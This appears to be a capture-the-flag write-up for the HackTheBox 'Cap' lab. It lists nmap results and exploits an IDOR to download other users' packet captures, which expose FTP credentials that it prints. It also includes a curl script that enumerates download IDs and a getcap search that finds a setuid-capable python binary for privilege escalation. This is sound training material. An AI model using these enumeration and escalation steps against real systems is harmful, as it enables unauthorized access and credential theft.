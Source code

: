 # #pcap #capability #IDOR

# NMAP


```shell 
Host is up (0.080s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 24 Aug 2024 04:44:07 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server.
```



> the site has a functionality that captures network packets, has an IDOR vulnerability that lets me get a packet captured from another user 
```
cap.htb/download/0
```

> search through the pcap file and I found an FTP login 
```
Credentials
username: nathan
password: Buck3tH4TF0RM3!
```

> Created a script that would go through different id's to get pcap files
``` bash
#!/bin/zsh

range=$1
for i in {0..$range} 
	do 
			req=$( curl -s http://cap.htb/download/$i --head ) ;
			if [[ $req != *"404"* ]];
			then echo $i;
			fi
	done
```

> python3.8 has a ==cap_setuid== capability on which can escalate privileges
> executed this command to get all capabilities 


`getcap -r / 2>/dev/null`

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```